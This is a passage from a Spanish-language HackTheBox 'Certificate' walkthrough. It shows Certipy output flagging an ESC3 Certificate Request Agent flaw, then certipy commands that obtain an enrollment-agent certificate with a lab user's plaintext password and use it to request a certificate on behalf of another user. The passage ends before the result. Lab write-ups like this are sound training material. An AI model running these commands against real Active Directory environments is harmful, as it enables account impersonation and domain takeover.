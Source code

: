 ```json
          ],
          "Write Dacl Principals": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ],
          "Write Property Enroll": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ]
        }
      },
      "[+] User Enrollable Principals": [
        "CERTIFICATE.HTB\\Domain CRA Managers"
      ],
      "[!] Vulnerabilities": {
        "ESC3": "Template has Certificate Request Agent EKU set."
      }
    }
  }
}
```

Veremos que hemos encontrado una `vulnerabilidad` **ESC3** en la plantilla **Delegated-CRA**. Esta es una vulnerabilidad de **Certificate Request Agent** que puede ser explotada.

Primero obtendremos un certificado de Agent:

```shell
certipy req -u 'lion.sk@CERTIFICATE.HTB' -p '!QAZ2wsx' -dc-ip <IP> -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'
```

Info:

```
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 26
[*] Successfully requested certificate
[*] Got certificate with UPN 'Lion.SK@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1115'
[*] Saving certificate and private key to 'lion.sk.pfx'
[*] Wrote certificate and private key to 'lion.sk.pfx'
```

Ahora vamos a usar el certificado de Agent para solicitar un certificado para `ryan.k` (Vamos a probar con este usuario que es de los que nos quedan en el `dominio`):

```shell
certipy req -u 'lion.sk@CERTIFICATE.HTB' -p '!QAZ2wsx' -dc-ip <IP> -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'SignedUser' -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\ryan.k'
```

Info:
